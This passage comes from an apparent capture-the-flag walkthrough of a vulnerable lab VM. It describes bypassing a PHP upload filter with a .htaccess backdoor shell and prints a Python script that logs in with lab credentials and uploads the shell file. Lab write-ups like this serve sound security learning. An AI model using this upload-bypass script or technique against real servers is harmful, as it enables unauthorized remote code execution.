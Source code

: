 Seeing this script in action would look as follows:
<script type="text/javascript" src="https://asciinema.org/a/13eq1usld7zxx2yoj55khbhwp.js" id="asciicast-13eq1usld7zxx2yoj55khbhwp" async></script>

So the pin code was `37, 10, 59, 17`. Easy.

The next obvious step was to try and figure out how we can weaponize this file upload, if at all. The file upload appeared to accept most uploads except for those ending in .php. Uploading a PHP script would return the error *Formato invalido!* Things like images (or almost anything that was not useful) responded with *Subida exitosa!*

I managed to discover a `uploads/` directory with `gobuster` again that helped me locate the uploaded files that I was uploading. The filenames appeared to remain intact which made things a little easier. But, this did not help me. I really hoped for some code execution.

*fast forward even more hours*

Eventually, I came across some PHP file upload bypass techniques that involve `.htaccess` files. The premise being that if its possible to write/overwrite a folders `.htaccess`, then it may be possible to [add a tiny backdoor shell](http://www.justanotherhacker.com/2011/05/htaccess-based-attacks.html) to a folder. Sneaky! The only real requirement was that the VirtualHost configuration had to allow for `.htaccess` files to be read. As I had already downloaded the configuration file for signal8.darknet.com, I could quickly see that `AllowOverride` was set to `All`. Fantastic!

I picked a shell from the [https://github.com/wireghoul/htshells](https://github.com/wireghoul/htshells) repository [here](https://github.com/wireghoul/htshells/blob/master/shell/mod_php.shell.htaccess). From my previous testing, I wrote a small uploader so that I wouldn't have to click those checkboxes all the time.

```
import requests
import sys
import os.path as path

s = requests.Session()


def w(text):
    sys.stdout.write('\r' + text)
    sys.stdout.flush()


print('[+] Logging in ...')
s.post('http://signal8.darknet.com/xpanel/index.php', data={
    'username': 'errorlevel',
    'password': 'tc65Igkq6DF',
})

print('[+] Uploading : {file}'.format(file=sys.argv[1]))
r = s.post('http://signal8.darknet.com/xpanel/ploy.php',
           files={'imag': open(sys.argv[1], 'rb')},
           data={
               'checkbox[]': [37, 10, 59, 17],
               'Action': 'Upload',
           })

if 'Subida exitosa' in r.text:
    print('[+] Upload successful! Try: http://signal8.darknet'
          '.com/xpanel/uploads/{file}'.format(file=path.basename(sys.argv[1])))
elif 'Formato invalido' in r.text:
    print('[!] Upload failed. Invalid format.')
else:
    print('[!] Upload failed, unknown error.')
```
